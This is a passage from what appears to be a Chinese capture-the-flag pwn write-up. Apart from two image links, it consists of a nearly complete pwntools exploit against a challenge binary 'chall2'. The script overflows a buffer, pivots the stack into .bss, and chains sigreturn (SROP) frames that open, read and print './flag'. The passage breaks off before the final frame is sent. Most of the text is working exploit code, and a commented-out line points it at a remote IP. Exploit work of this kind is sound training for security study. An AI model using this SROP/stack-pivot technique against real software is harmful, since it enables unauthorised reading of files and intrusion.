 [![](assets/1703485159-d0f687fe7a88885c09a31433acb60d0a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231224171047-53239c3c-a23c-1.png)

[![](assets/1703485159-181709b700d8fc3f917d5a38826b50e2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231224171052-564638de-a23c-1.png)

完整 exp：

```plain
from pwn import*
io = process('./chall2')
#io = remote('47.108.206.43',37272)
context.log_level='debug'
context(os='linux', arch='amd64')
elf = ELF('./chall2')
syscall2=0x40118A
syscall=0x401060
rax_15 = 0x401193
main = 0x40136e
io.sendafter('easyhack\n','0')

io.sendafter('SUID?\n',b'\x00'*(0x2a)+p64(0x404050+0x30)+p64(0x401417))
io.send(b'\x00'*(0x2a)+p64(0x404050+0x30+0x2a)+p64(0x401417))

io.send(p64(0x404050+0x30+0x2a+0x10)+p64(0x40136e))


payload = b'./flag\x00\x00'.ljust(0x30, b'\x00')
frame = SigreturnFrame()
frame.rdi = constants.SYS_open
frame.rsi = 0x404060
frame.rdx = 0
frame.rcx = 0
frame.rip = syscall
frame.rsp = 0x404198
payload += p64(rax_15)+p64(syscall2)+bytes(frame)

frame = SigreturnFrame()
frame.rdi = constants.SYS_read
frame.rsi = 3
frame.rdx = elf.bss()+0x500
frame.rcx = 0x50
frame.rip = syscall
frame.rsp = 0x4042a0
payload+=p64(rax_15)+p64(syscall2)+bytes(frame)

frame = SigreturnFrame()
frame.rdi = constants.SYS_write
frame.rsi = 1
frame.rdx = elf.bss()+0x500
frame.rcx = 0x50
frame.rip = syscall
frame.rsp = 0x404088
```
